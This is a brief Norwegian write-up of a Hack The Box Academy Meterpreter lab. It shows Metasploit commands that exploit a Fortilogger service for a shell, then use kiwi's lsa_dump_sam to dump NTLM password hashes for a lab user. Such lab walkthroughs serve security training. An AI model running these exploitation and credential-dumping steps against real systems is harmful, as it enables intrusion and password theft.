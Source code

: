 # Meteperter

## Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

For å løse denne gjør jeg en rask nmap scan på domenet. Jeg finner prosessen jeg kan exploite, som er "Fortilogger"

<br>

Start metasploit med `msfconsole -q`


`search fortilogger`

`use 0`

`set RHOTS *ip*`

`set LHOST tun0`

`run`

<br>

![picture1](https://user-images.githubusercontent.com/83395536/194724526-3ab048e5-345d-493a-9a4b-5a5f0b61d166.png)
<br>
<br>
Spørsmålet ønsker at vi skal finne ut hva brukernavet er til brukeren vi nettop kom innpå. For å finne det ut kjører vi bare `getuid` for å få brukernavnet siden maskinen vi kom inn på er Windows. Dette kan vi se med at det er en C:\Windows
<br>
<br>

## Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.

<br>

Vi lærte i modulen hvordan vi får NTLM passord, og det er derfor jeg velger å kjøre en `load kiwi` for å få disse ekstra kommandoene. 

<br>

For å få passord hashene kjører jeg `lsa_dump_sam`, og skroller ned til jeg finner brukeren "htb-student". 

<br>

![hack2](https://user-images.githubusercontent.com/83395536/194724535-dc59360b-0745-4899-9e90-252eeff910e7.png)

<br>

![hack3](https://user-images.githubusercontent.com/83395536/194724534-4c0c569a-65c7-430c-b289-9a2c12f39181.png)

<br>

Gratulerer, du har hacket en maskin der du fikk NTLM passordene til en bruker!

